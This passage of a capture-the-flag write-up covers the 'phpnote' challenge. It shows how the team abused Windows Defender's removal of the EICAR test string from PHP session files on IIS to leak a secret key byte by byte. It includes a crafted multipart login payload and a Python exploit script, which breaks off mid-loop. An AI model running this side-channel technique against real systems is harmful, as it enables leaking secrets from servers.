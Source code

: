 so we looked a bit around and found out that the server is IIS 10 by looking at the `Server:` header from the HTTP response.

```html
...
Server: Microsoft-IIS/10.0
X-Powered-By: PHP/7.3.9

```

Then We recalled the @icchy's writeup for the WCTF challenge Gyotaku The Flag (https://westerns.tokyo/wctf2019-gtf/wctf2019-gtf-slides.pdf)

So we thought of the strategy and was as followes:

1. PHPSESSID is stored in the filesystem.
2. Considering that this is a Windows + IIS challenge, we can make Windows Defender angry by writing dangerous contents into the session, and destroy PHPSESSID data.
3. After the dangerous content is removed, we can manipulate the session and leak secret key byte by byte.

To prove that this works, we installed a fresh version of windows and installed IIS with PHP and sourcecode on it. then we logged in with the following parameters on login page via POST.

```html
----------1384459925
Content-Disposition: form-data; name="realname"

--!><html><head><script>var b="$EICAR-STANDARD-ANTIVIRUS-TEST-FILE";var a="X5O!P%@AP[4\\PZX54(P^)7CC)7}$EICAR-STANDARD-ANTIVIRUS-TEST-FILE!$H+H"+"*";eval(a);</script></head><body>
----------1384459925
Content-Disposition: form-data; name="nickname"

11
----------1384459925--

```

After that we noticed the `Threats found` alert, then we found out that some bytes are removed from the PHPSESSID. With that in mind, we made a exploit to leak the flag.

```python
import requests
 
URL = "http://phpnote.chal.ctf.westerns.tokyo" # changeme
 
def trigger(c, idx):
   import string
   p = '''<script>f=function(n){eval('X5O!P%@AP[4\\\\PZX54(P^)7CC)7}$$EICAR-STANDARD-ANTIVIRUS-TEST-FILE!$$H+H'+{${c}:'*'}[Math.min(${c},n)])};f(document.body.innerHTML[${idx}].charCodeAt(0));</script><body>'''
   p = string.Template(p).substitute({'idx': idx, 'c': c})
   return p
 
def leak(idx):
   l, h = 0, 0x100
   while h - l > 1:
       m = (h + l) // 2
       gid = trigger(m, idx)
       # r = requests.post(URL + '/?action=login', data={'realname': gid, 'nickname': '1'})
       # print r.content
       # exit()
       s = requests.session()
       s.post(URL + '/?action=login', data={'realname': gid, 'nickname': ''})
       if "/?action=login" in s.post(URL + '/?action=login', data={'realname': gid, 'nickname': '</body>'}).content:
           l = m
       else:
```